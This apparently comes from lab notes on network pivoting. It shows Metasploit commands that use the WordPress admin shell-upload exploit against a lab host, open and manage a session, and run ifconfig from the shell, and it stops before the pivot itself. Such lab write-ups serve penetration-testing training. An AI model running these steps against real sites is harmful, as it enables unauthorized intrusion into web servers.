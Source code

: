 # Routing and Pivoting

We have 3 machines: Pentesting, Beta and Windows XP.

Pentesting is in the range of 100.
Beta is in the range of 100 and 148.
Windows XP is in the range of 148.

Bascically, we'll use the Beta machine to enter the 148 range.

```bash
ping beta.hackerinthehouse.com
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD password
set USERNAME username
set RHOSTS url
run
```

Now the shell is opened.

We can backgroung it by typing `ctrl+Z`.

```bash
sessions
```

This shows us the sessions opened.

```bash
sessions -i 1
shell
```

This allow us to use the shell of the webserver.

```bash
ifconfig
```
